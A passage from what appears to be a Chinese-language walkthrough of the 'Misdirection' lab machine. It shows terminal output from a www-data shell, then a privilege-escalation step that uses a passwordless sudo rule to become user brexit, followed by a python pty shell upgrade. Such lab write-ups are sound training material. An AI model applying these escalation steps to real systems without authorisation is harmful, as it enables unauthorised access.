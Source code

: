       inet6 fe80::20c:29ff:feaa:9e2f/64 scope link 
         valid_lft forever preferred_lft forever
  www-data@misdirection:/var/www/html/debug$ sudo -l
  sudo -l
  Matching Defaults entries for www-data on localhost:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on localhost:
      (brexit) NOPASSWD: /bin/bash
  www-data@misdirection:/var/www/html/debug$ 
  
  ```

## 提权

- 通过`sudo -l `可以看到用户`brexit`在可以在不需要密码的情况下直接使用`/bin/bash`,尝试切换用户到`brexit`

- 成功切换到用户`brexit`

- ```shell
  www-data@misdirection:/var/www/html/debug$ sudo -l 
  sudo -l
  Matching Defaults entries for www-data on localhost:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on localhost:
      (brexit) NOPASSWD: /bin/bash
  www-data@misdirection:/var/www/html/debug$ sudo -u brexit /bin/bash
  sudo -u brexit /bin/bash
  whoami
  brexit
  uname -a
  Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  
  ## 提升shell交互性
  python3 -c 'import pty;pty.spawn("/bin/bash")';
  brexit@misdirection:/var/www/html/debug$ ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 00:0c:29:aa:9e:2f brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.9/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 960sec preferred_lft 960sec
      inet6 fe80::20c:29ff:feaa:9e2f/64 scope link 
         valid_lft forever preferred_lft forever
  brexit@misdirection:/var/www/html/debug$ uname -a
  uname -a
  Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  brexit@misdirection:/var/www/html/debug$ id
  id
  uid=1000(brexit) gid=1000(brexit) groups=1000(brexit),24(cdrom),30(dip),46(plugdev),108(lxd)
  brexit@misdirection:/var/www/html/debug$ 
  
  ```
